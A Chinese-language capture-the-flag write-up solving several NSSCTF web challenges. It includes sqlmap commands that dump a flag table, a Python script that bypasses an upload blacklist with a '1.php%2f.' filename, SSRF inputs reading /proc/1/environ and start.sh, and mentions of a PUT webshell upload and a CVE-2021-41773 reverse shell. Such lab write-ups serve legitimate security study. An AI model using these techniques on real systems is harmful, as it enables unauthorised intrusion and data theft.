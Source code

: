 #### NSSCTF Round #1

##### basic_check

题目：https://www.nssctf.cn/problem/2199

一个页面内什么都没有，先扫一下目录和可用的请求类型。使用curl的具体命令为：

```shell
curl -X OPTIONS http://example.com -i
```

这道题支持PUT请求

> PUT请求如果URI不存在，则要求服务器根据**请求创建资源**，如果存在，服务器就接受请求内容，并修改URI资源的原始版本。

所以我们可以通过PUT请求传一个一句话木马即可拿到访问权限。

##### sql_by_sql

题目：https://www.nssctf.cn/problem/2200

参考：https://www.cnblogs.com/jackie-lee/p/16124022.html

发现可以注册用户，考虑二次注入。先注册一个amin' --+的恶意用户，再修改密码，这样admin的密码就被改成了我们的输入。在主页发现注入点，需要使用布尔盲注，尝试sqlmap自动化解决。一开始没注成功，把level提高到3成功了。POC如下：

```shell
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --level 3
// 这里的链接：/query data：id=1和cookie的内容用burp抓包就可以看到，即为sqlmap找到正确的注入点
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --tables
// 这里是确定注入点后使用--tables参数让sqlmap读取数据库的表名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" --columns
// 这里用-T指定数据表后使用--columns参数让sqlmap读取数据库的列名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" -C "flag" --dump
// 这里打印flag表flag列的内容，得到flag
```

#### NSSCTF 2nd

##### php签到

题目：https://www.nssctf.cn/problem/4280

参考：https://www.anquanke.com/post/id/253383

一道有黑名单的文件上传题，php和phtml肯定是不能直接上传的，考虑文件解析漏洞，发现上传1.php/.可以实现绕过，解析原理应该是文件名提取是最后一个/和.的中间部分，文件后缀提取的是最后一个.后面的部分，但是在操作系统中这种文件名不符合规范，所以/.在传入成功之后会被删除，上传代码为

```python
import requests

url = "http://node5.anna.nssctf.cn:28295"
file_content = "<?php phpinfo();?>'"
file = {"file": ("1.php%2f.", file_content)}
response = requests.post(url, files=file)
print(response.text)
```

之后访问1.php就可以查看phpinfo的内容，在其中找到flag。

##### MyBox

题目：https://www.nssctf.cn/problem/4299

可能是非预期解，直接用file读环境变量。

```php
?url=file:///start.sh		启动服务和设置环境变量的shell脚本，可以对靶机进行初始化，从中可以看到flag的写入位置
?url=file:///proc/1/environ
```

##### MyBox(revenge)

题目：https://www.nssctf.cn/problem/4306

参考：https://blog.csdn.net/Tauil/article/details/125946883

对MyBox的修复，一道[CVE-2021-41773](/CVE/CVE-2021-41773)的题目，首先用file协议查看app.py源代码，发现一个自定义的mybox，可以进行SSRF。这里使用[gopher](./assets/gopher.py)的攻击脚本，得到apache版本，满足CVE攻击方式，按照[脚本](./assets/MyBox.py)进行反弹shell，但是目前还没有在本地反弹成功过。

